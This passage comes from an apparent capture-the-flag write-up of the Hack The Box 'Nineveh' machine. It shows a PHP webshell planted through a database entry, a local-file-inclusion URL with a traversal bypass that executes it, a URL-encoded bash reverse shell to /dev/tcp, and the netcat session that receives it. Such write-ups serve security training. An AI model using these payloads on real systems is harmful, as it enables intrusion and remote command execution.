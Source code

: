 So first I created a database `aaaa.php` and made a table `payload` with the row entry `<?php system($_REQUEST["cmd"]);?> `

![](https://github.com/Leo-2807/Writeups/blob/main/images/nineveh9.png) 

Then I used the lfi that we found on the department page to access this webshell.

It took me some time and a lot of tries to get it right.

Okay, so the page is checking for a key word `ninevehNotes` and if it is not there the page displays `no notes selected` 

This is what I used to accedd my webshell
`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/aaaa.php&cmd=id`

![](https://github.com/Leo-2807/Writeups/blob/main/images/nineveh10.png)

## SHELL

I use the url encoded shell `bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'`

```bash
┌──(kali㉿kali)-[~/Downloads/hackthebox/nineveh]
└─$ nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.43] 52296
bash: cannot set terminal process group (1383): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
```
